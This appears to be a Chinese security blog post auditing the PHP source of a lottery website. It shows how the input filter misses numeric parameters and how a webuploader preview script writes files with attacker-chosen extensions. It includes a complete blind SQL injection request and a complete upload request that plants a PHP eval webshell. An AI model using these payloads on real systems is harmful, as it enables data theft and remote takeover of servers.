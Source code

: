 ```yaml
---
title: "记一套彩票程序代码审计"
date: 2020-12-31 23:42:06
draft: flase
tags: ['彩票程序']
categories: ['代码审计']
---
```




> 团队成员发的一套源码
<!--more-->




## 前期审计


在审计一套代码的时候，我们首先要了解程序的路由、全局文件是否有过滤等问题。
我们首先查看入口文件，也就是index.php


![image.png](https://sqlmap.wiki/images/cp1.png)


加载了conn.php,base.php等外部文件。判断是电脑还是手机访问。还判断了用户如果m传参是admin的话，显示权限不足，也就是不准你用这种路由访问后台。按照经验来看，这套程序是有个专门的后台登录文件。


conn.php

![image.png](https://sqlmap.wiki/images/cp2.png)


base.php

![image.png](https://sqlmap.wiki/images/cp3.png)




base.php从第76-93行是重点。

![image.png](https://sqlmap.wiki/images/cp4.png)



可以看到，对请求方式都添加了过滤，addslasheshe的功能就是给单引号添加反斜杠。

这个函数有个特性就是不会拦截数值型的变量。所以我们找注入就去找没有单双引号包裹的就行








## 发现漏洞
## 
### SQL盲注


全局搜索where关键字，发现一个数值型变量。定位到lib/controller/api/app.php文件。


![image.png](https://sqlmap.wiki/images/cp5.png)




可以看到，非常典型的一个注入。构造payload
```plsql
POST /index.php?m=api&c=app&a=getTips HTTP/1.1
Host: xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: xxx.com
Connection: close
Referer: xxx.com
Cookie: PHPSESSID=mq7b12iqj8ci3d9njejsncmo0i
Upgrade-Insecure-Requests: 1

payment_id=1 or if((select ascii(substr(username,1,1)) from un_admin where userid=1)=97,1,0)#
```




### RCE 


对于RCE，我比较喜欢全局搜索file_put_contents，定位到statics/admin/webuploader/0.1.5/server/preview.php






```php
<?php
/**
 * 此页面用来协助 IE6/7 预览图片，因为 IE 6/7 不支持 base64
 */

$DIR = 'preview';
// Create target dir
if (!file_exists($DIR)) {
    @mkdir($DIR);
}

$cleanupTargetDir = true; // Remove old files
$maxFileAge = 5 * 3600; // Temp file age in seconds

if ($cleanupTargetDir) {
    if (!is_dir($DIR) || !$dir = opendir($DIR)) {
        die('{"jsonrpc" : "2.0", "error" : {"code": 100, "message": "Failed to open temp directory."}, "id" : "id"}');
    }

    while (($file = readdir($dir)) !== false) {
        $tmpfilePath = $DIR . DIRECTORY_SEPARATOR . $file;

        // Remove temp file if it is older than the max age and is not the current file
        if (@filemtime($tmpfilePath) < time() - $maxFileAge) {
            @unlink($tmpfilePath);
        }
    }
    closedir($dir);
}

$src = file_get_contents('php://input');

if (preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)) {

    $previewUrl = sprintf(
        "%s://%s%s",
        isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] != 'off' ? 'https' : 'http',
        $_SERVER['HTTP_HOST'],
        $_SERVER['REQUEST_URI']
    );
    $previewUrl = str_replace("preview.php", "", $previewUrl);


    $base64 = $matches[2];
    $type = $matches[1];
    if ($type === 'jpeg') {
        $type = 'jpg';
    }

    $filename = md5($base64).".$type";
    $filePath = $DIR.DIRECTORY_SEPARATOR.$filename;

    if (file_exists($filePath)) {
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    } else {
        $data = base64_decode($base64);
        file_put_contents($filePath, $data);
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    }

} else {
    die('{"jsonrpc" : "2.0", "error" : {"code": 100, "message": "un recoginized source"}}');
}
```


关键代码33行，从php流直接获取内容。然后就是正则匹配，匹配/image/xxx，xxx赋值为后缀，base64,xxx为文件内容。然后进行了个判断，如果为jpeg，则把后缀定义为jpg，但是它这里判断完之后，并没有啥用，我们依然可以伪造为php后缀。其实这个代码跟我以前那篇交易所文章的代码几乎一模一样，有不懂的可以去看下。


#### payload


```plsql
POST /statics/admin/webuploader/0.1.5/server/preview.php HTTP/1.1
Host: xxx.com
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="87", " Not;A Brand";v="99", "Chromium";v="87"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=qg48o5j2dqcvivktta811srn30
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

data:image/php;base64,PD9waHAgQGV2YWwoJF9QT1NUWyJjbWQiXSk7
```
